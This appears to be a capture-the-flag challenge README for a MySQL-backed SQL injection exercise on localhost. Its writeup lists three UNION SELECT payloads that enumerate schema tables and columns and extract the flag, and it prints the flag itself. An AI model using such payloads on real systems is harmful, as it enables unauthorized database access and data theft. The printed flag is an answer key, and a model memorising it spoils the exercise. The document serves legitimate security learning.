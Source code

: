 # sql_injection
`mysql`でなんか作ってみたよ！

```
http://localhost:30010/
```
## writeup

' UNION SELECT TABLE_NAME, TABLE_TYPE FROM INFORMATION_SCHEMA.TABLES #

' UNION SELECT COLUMN_NAME, 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "flag_table" #

' union select flag, 1 from flag_table #


```
flag{SQL_1NJECT10N_4ND_LEAK_T4BLES!!}
```